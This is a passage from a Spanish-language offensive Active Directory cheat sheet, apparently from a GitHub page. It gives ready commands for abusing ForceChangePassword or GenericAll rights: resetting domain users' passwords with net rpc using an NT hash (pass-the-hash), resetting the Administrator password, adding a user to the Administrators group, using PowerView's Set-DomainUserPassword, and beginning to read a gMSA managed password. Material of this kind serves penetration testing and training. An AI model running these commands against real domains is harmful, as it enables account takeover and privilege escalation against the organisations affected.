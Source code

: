 >Para esto es imprescindible estar en el grupo `Domain Admins` o bien tener el privilegio `ForceChangePassword` sobre un usuario. Cabe destacar que recomiendo hacerlo desde tu máquina atacante ya que suele fallar menos. También si tenemos `Generic All` sobre el usuario, claro está.

### Desde Linux (máquina atacante):

```shell
net rpc password <USUARIO1> -U '<DOMINIO>/<USUARIO2>%<NT_HASH>' -S <HOSTNAME>.<DOMINIO> --pw-nt-hash
```

```shell
net rpc password <USUARIO1> -U '<DOMINIO>/<USUARIO2>%<CONTRASEÑA>' -S <HOSTNAME>.<DOMINIO>
```

>`USUARIO1`: Usuario al que le vas a modificar la contraseña
>`USUARIO2`: Usuario sobre el que tienes credenciales

### Desde Windows (máquina víctima)

A diferencia de Linux aquí no podemos usar el hash NT del usuario sobre el que tenemos control, tenemos o bien que autenticarnos por **WinRM** si es que solo tenemos el hash o bien si es que podemos ejecutar comandos como el usuario con `Invoke-Command`; de todas formas el comando no varía:

```powershell
net user Administrator password#123
```

Aunque otra cosa que es funcional es añadir a un usuario al grupo `Administrators`:

```powershell
net group Administrators <USUARIO> /domain /add
```

También se puede hacer desde powershell, con el módulo [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1):

```powershell
Import-Module .\PowerView.ps1
```

```powershell
$newpass = ConvertTo-SecureString '<CONTRASEÑA>' -AsPlainText -Force
```

```powershell
Set-DomainUserPassword -Identity <USUARIO> -AccountPassword $newpass
```

## ReadGMSAPassword

Primero debemos tener este privilegio sobre otro usuario. Esto se puede mirar con `BloodHound`. 
- Primero necesitamos obtener la contraseña del usuario en cuestión:

```powershell
$GMSA = (Get-ADServiceAccount -Identity <'USUARIO'> -Properties 'msDS-ManagedPassword').'msDS-ManagedPassword'
```
